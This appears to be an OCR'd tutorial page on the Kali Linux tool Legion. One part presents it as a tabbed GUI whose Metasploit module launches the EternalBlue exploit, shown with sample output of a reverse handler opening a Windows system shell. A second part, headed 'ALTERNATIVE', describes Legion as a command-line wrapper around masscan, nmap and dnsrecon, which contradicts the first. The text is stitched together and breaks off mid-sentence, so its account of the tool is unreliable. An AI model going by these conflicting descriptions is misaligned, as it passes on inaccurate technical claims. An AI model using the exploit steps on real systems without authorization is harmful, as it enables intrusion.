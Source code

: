 3. **Exploitation**
   - The "Exploitation" tab contains tools like Metasploit, Sqlmap, and MSFvenom.
   - For example, to use Metasploit, select the "Metasploit" module, choose an exploit and a payload, configure the options, and click "Launch".
   - **Expected Output:**
     ```
     Starting Metasploit module: exploit/windows/smb/ms17_010_eternalblue
     [*] Started reverse TCP handler on 192.168.1.101:4444
     [*] 192.168.1.100:445 - Connecting to target for exploitation...
     [*] 192.168.1.100:445 - Exploiting target...
     [+] Exploit completed, a shell is now open!
     Microsoft Windows [Version 10.0.17763.737]
     (c) 2018 Microsoft Corporation. All rights reserved.

     C:\Windows\system32>
     ```

Legion provides a user-friendly interface to access and manage a wide range of security tools. By organizing these tools into different tabs and modules, Legion simplifies the process of performing various security tasks, making it easier for both beginners and experienced users to leverage the power of Kali Linux tools.





                                            ALTERNATIVE
Legion is a Kali Linux tool used for network reconnaissance and discovery. It's a wrapper around several other tools, including masscan, nmap, and dnsrecon, to provide a comprehensive view of a target network.

**Basic Usage:**
The basic syntax for using Legion is:
```
legion <target>
```
Here, `<target>` can be an IP address, a hostname, or a network range.

**Examples:**

1. **Basic Scan:**
To perform a basic scan on a single IP address:
```
legion 192.168.1.1
```
This will run a series of scans using masscan, nmap, and dnsrecon to gather information about the target host.

2. **Scanning a Range of IP Addresses:**
To scan a range of IP addresses, for example, 192.168.1.1 to 192.168.1.254:
```
legion 192.168.1.1-254
```
This will scan all IP addresses in the specified range and provide a comprehensive report.

**Output:**
The output of Legion will vary depending on the target system's configuration and the options used. However, it typically includes information such as:
